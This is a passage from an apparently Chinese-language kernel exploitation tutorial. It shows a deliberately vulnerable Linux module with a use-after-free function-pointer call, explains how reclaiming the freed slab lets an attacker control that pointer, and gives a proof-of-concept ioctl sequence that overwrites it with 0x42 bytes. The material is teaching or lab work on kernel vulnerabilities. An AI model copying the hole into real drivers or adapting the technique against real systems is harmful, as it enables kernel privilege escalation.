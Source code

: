 ```
    }

// 4. 使用uaf对象，调用成员fn指向的函数
    static void use_uaf_obj(void)
    {
        if(global_uaf_obj->fn)
        {
            //debug info
            printk(KERN_WARNING "[x] Calling 0x%p(%lu)[x]\n", global_uaf_obj->fn, global_uaf_obj->arg);

            global_uaf_obj->fn(global_uaf_obj->arg);
        }
    }

// 5. 分配k_object对象，并从用户地址user_kobj拷贝数据到分配的地址
    static int alloc_k_obj(k_object *user_kobj)
    {
        k_object *trash_object = kmalloc(sizeof(k_object), GFP_KERNEL);
        int ret;

        if(!trash_object) {
            printk(KERN_WARNING "[x] Error allocating k_object memory [-]\n");
            return -ENOMEM;
        }

        ret = copy_from_user(trash_object, user_kobj, sizeof(k_object));
        printk(KERN_WARNING "[x] Allocated k_object [x]\n");
        return 0;
    }


```

### （2）利用思路

思路：如果 uaf_obj 被释放，但指向它的 global_uaf_obj 变量未清零，若另一个对象分配到相同的 cache，并且能够控制该 cache 上的内容，我们就能控制 fn() 调用的函数。

测试：本例中我们可以利用 k_object 对象来布置堆数据，将 uaf_obj 对象的 fn 指针覆盖为 0x4242424242424242。

```
//完整代码见easy_uaf.c
void use_after_free_kobj(int fd)
{
     k_object *obj = malloc(sizeof(k_object));
    
    //60 bytes overwrites the last 4 bytes of the address
    memset(obj->buff, 0x42, 60); 

    ioctl(fd, ALLOC_UAF_OBJ, NULL);
    ioctl(fd, FREE_UAF_OBJ, NULL);

    ioctl(fd, ALLOC_K_OBJ, obj);
    ioctl(fd, USE_UAF_OBJ, NULL);
}


```
